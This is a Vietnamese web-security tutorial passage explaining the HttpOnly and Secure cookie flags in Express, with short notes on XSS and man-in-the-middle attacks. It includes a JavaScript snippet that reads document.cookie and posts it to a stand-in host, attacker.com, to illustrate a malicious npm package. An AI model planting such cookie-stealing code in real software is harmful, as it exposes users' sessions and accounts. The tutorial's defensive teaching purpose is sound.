 <br>

## <font color="#C0C0C0">🥈 Lưu Ý Khi Dùng Cookie</font>

### <font color="#cd7f32">🥉 HttpOnly</font>

- Khi set `HttpOnly` cho một `cookie` của bạn thì `cookie` đó sẽ không thể đọc được bằng `Javascript` (tức là không thể lấy `cookie` bằng `document.cookie` được). Điều này giúp tránh được <font color="#fc1c50">tấn công XSS.</font>

- <font color="#fc1c50">tấn công XSS</font> hiểu đơn giản là người khác có thể chạy được code `javascript` của họ trên trang web của bạn. Ví dụ bạn dùng một thư viện trên `npm`, người tạo thư viện này cố tình chèn một đoạn code `javascript` như sau

  ```js
  // Lấy cookie
  const cookie = document.cookie

  // Gửi cookie về một trang web khác
  const xhr = new XMLHttpRequest()
  xhr.open('POST', 'https://attacker.com/steal-cookie', true)
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
  xhr.send(`cookie=${cookie}`)
  ```

- Khi bạn `deploy` website, user truy cập vào website của bạn, thì đoạn code trên sẽ chạy và gửi `cookie` của user về cho kẻ tấn công (người tạo thư viện). Nếu `cookie` chứa các thông tin quan trọng như tài khoản ngân hàng, mật khẩu, ... thì user đã bị hack rồi.

- Để set `HttpOnly` cho `cookie`, bạn chỉ cần thêm option `httpOnly`: `true` vào `cookie` như sau

  ```js
  // Thiết lập cookie với httponly
  res.cookie('cookieName', 'cookieValue', { httpOnly: true })
  ```

<br>

### <font color="#cd7f32">🥉 Secure</font>

- Khi `set Secure` cho một `cookie` của bạn thì `cookie` đó chỉ được gửi lên `server` khi bạn truy cập vào trang web bằng `https`. Điều này giúp tránh được các <font color="#fc1c50">lỗ hổng MITM (Man in the middle attack)</font>

- <font color="#fc1c50">Man-in-the-middle (MITM)</font> là một kỹ thuật tấn công mạng, trong đó kẻ tấn công can thiệp vào kết nối giữa hai bên và trộn lẫn thông tin giữa họ. Khi bị tấn công, người dùng thường không nhận ra được sự can thiệp này. Ví dụ bạn dùng wifi công cộng, kẻ tấn công có thể đọc được dữ liệu bạn gửi đi.

- Để `set Secure` cho `cookie`, bạn chỉ cần thêm option `secure`: `true` vào `cookie` như sau:

  ```js
  res.cookie('cookieName', 'cookieValue', { secure: true })
  ```

<br>
